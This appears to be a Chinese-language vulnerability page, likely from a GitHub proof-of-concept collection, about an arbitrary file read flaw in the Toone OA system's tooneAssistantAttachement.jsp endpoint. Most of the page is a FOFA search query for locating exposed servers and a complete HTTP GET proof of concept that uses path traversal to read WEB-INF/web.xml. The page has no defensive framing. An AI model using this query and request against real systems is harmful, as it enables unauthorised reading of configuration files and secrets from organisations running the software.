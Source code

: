 # 同望OA系统接口tooneAssistantAttachement.jsp任意文件读取漏洞

同望OA系统接口tooneAssistantAttachement.jsp任意文件读取漏洞，可能导致敏感信息泄露、数据盗窃及其他安全风险，从而对系统和用户造成严重危害。

## fofa

```javascript
body="loginAction.struts?actionType=blockLogin"
```

## poc

```java
GET /jsp/oa/app/webservice/tooneAssistant/tooneAssistantAttachement.jsp?filename=./../../../../../WEB-INF/web.xml HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 5.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/35.0.2117.157 Safari/537
Accept-Encoding: gzip
Connection: close
```

![image-20241012131723974](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202410121317035.png)